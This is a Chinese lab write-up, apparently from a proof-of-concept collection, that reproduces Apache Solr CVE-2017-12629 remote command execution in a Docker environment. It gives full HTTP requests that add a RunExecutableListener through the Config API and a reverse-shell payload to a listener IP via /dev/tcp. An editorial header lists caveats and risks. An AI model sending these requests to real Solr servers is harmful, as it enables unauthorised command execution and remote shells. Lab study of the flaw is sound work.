





# Apache Solr 远程命令执行漏洞 CVE-2017-12629

<!-- vulwiki-editorial:start -->
## 校订与适用边界

- 适用前提：<7.1，Config API可写及postCommit事件触发；示例Linux shell
- 证据范围：比198简洁，手动更新流程同源；XXE仅背景，应与XXE篇互链保留。

### 本次正文校订

- 按实际内容修正 5 处代码围栏语言标记，保留其中方法与请求内容。

### 尚未解决的证据缺口

以下限制仍适用于后文历史材料；相关版本、结果或修复结论不能据此视为已验证：

- 缺实际版本/完整环境路径，两个config POST缺Content-Type
- 普通update是否触发postCommit取决于commit配置，需明确自动/显式提交时机
- 在shell参数里使用>&依赖sh解析器，不能把bash作为首命令就假定shell语法是bash
- 写监听器及索引数据无恢复/清理说明

### 操作风险与资料使用

- 含反向连接或交互式命令执行方法：会产生出站连接和子进程；目标、监听端与网络须在授权隔离范围内，结束后关闭会话并核对遗留进程。

本页为文本校订，未执行代码、PoC 或目标请求；原图仅保留引用，未据此确认复现成功。
<!-- vulwiki-editorial:end -->

## 技术正文与历史材料

## 漏洞描述

漏洞原理与分析可以参考：

- https://www.exploit-db.com/exploits/43009/
- https://paper.seebug.org/425/

Apache Solr 是一个开源的搜索服务器。Solr 使用 Java 语言开发，主要基于 HTTP 和 Apache Lucene 实现。原理大致是文档通过Http利用XML加到一个搜索集合中。查询该集合也是通过 http收到一个XML/JSON响应来实现。此次7.1.0之前版本总共爆出两个漏洞：[XML实体扩展漏洞（XXE）](https://github.com/vulhub/vulhub/tree/master/solr/CVE-2017-12629-XXE)和远程命令执行漏洞（RCE），二者可以连接成利用链，编号均为CVE-2017-12629。

本环境测试RCE漏洞。

## 环境搭建

Vulhub运行漏洞环境：

```shell
docker-compose up -d
```

命令执行成功后，需要等待一会，之后访问`http://your-ip:8983/`即可查看到Apache solr的管理页面，无需登录。



## 漏洞复现

首先创建一个listener，其中设置exe的值为我们想执行的命令，args的值是命令参数：

```http
POST /solr/demo/config HTTP/1.1
Host: your-ip
Accept: */*
Accept-Language: en
User-Agent: Mozilla/5.0 (compatible; MSIE 9.0; Windows NT 6.1; Win64; x64; Trident/5.0)
Connection: close
Content-Length: 158

{"add-listener":{"event":"postCommit","name":"new_listener","class":"solr.RunExecutableListener","exe":"sh","dir":"/bin/","args":["-c", "touch /tmp/awesome_poc"]}}
```



然后进行update操作，触发刚才添加的listener：

```http
POST /solr/demo/update HTTP/1.1
Host: your-ip
Accept: */*
Accept-Language: en
User-Agent: Mozilla/5.0 (compatible; MSIE 9.0; Windows NT 6.1; Win64; x64; Trident/5.0)
Connection: close
Content-Type: application/json
Content-Length: 15

[{"id":"test"}]
```



执行`docker-compose exec solr bash`进入容器，可见`/tmp/awesome_poc`已成功创建：



执行反弹shell命令：

```http
POST /solr/demo/config HTTP/1.1
Host: your-vps-ip:8983
Accept: */*
Accept-Language: en
User-Agent: Mozilla/5.0 (compatible; MSIE 9.0; Windows NT 6.1; Win64; x64; Trident/5.0)
Connection: close
Content-Length: 192

{"add-listener":{"event":"postCommit","name":"newlistener_bash","class":"solr.RunExecutableListener","exe":"sh","dir":"/bin/","args":["-c", "bash -i >& /dev/tcp/192.168.174.128/9999 0>&1"]}}
```

然后进行update操作，触发刚才添加的listener：

```http
POST /solr/demo/update HTTP/1.1
Host: your-ip
Accept: */*
Accept-Language: en
User-Agent: Mozilla/5.0 (compatible; MSIE 9.0; Windows NT 6.1; Win64; x64; Trident/5.0)
Connection: close
Content-Type: application/json
Content-Length: 15

[{"id":"test"}]
```

成功接收反弹shell：




---

> 来源：Threekiii/Awesome-POC
